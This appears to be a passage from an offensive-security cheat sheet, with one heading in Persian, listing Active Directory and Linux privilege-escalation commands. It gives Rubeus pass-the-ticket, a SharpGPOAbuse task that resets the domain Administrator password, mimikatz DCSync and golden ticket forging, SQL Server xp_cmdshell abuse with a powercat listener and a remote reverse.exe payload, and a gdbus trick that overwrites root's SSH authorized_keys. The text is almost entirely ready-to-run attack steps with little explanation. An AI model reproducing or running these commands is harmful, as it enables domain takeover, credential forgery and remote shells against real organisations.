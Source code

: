 ### Upgrade access using the Pass-the-Ticket method

```text
1..\Rubeus.exe askgt /user:<USET>$ /rc4:<NTLM HASH> /ptt
2. klist
```

### Upgrade access with vulnerable GPO

```text
1..\SharpGPOAbuse.exe --AddComputerTask --Taskname "Update" --Author DOMAIN\<USER> --Command "cmd.exe" --Arguments "/c net user Administrator Password!@# /domain" -- GPOName "ADDITIONAL DC CONFIGURATION"
```

### Golden Ticket production with mimikatz

```text
1.mimikatz # lsadump::dcsync /user:<USER>
2.mimikatz # kerberos::golden /user:<USER> /domain:</DOMAIN> /sid:<OBJECT SECURITY ID> /rce:<NTLM HASH> /id:<USER ID>
```

### Upgrade access with TRUSTWORTHY database in SQL Server


```text
1. . .\PowerUpSQL.ps1
2. Get-SQLInstanceLocal -Verbose
3. (Get-SQLServerLinkCrawl -Verbos -Instance "10.10.10.10" -Query 'select * from master..sysservers').customer.query
4. 
USE "master";
SELECT *, SCHEMA_NAME("schema_id") AS 'schema' FROM "master"."sys"."objects" WHERE "type" IN ('P', 'U', 'V', 'TR', 'FN', 'TF, 'IF');
execute('sp_configure "xp_cmdshell",1;RECONFIGURE') at "<DOMAIN>\<DATABASE NAME>"
5. powershell -ep bypass
6. Import-Module .\powercat.ps1
7. powercat -l -v -p 443 -t 10000
8.
SELECT *, SCHEMA_NAME("schema_id") AS 'schema' FROM "master"."sys"."objects" WHERE "type" IN ('P', 'U', 'V', 'TR', 'FN', 'TF, 'IF');
execute('sp_configure "xp_cmdshell",1;RECONFIGURE') at "<DOMAIN>\<DATABASE NAME>" 
execute('exec master..xp_cmdshell "\\10.10.10.10\reverse.exe"') at "<DOMAIN>\<DATABASE NAME>" 
```

### ارتقا دسترسی با gdbus

```text
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/authorized_keys /root/.ssh/authorized_keys true
```


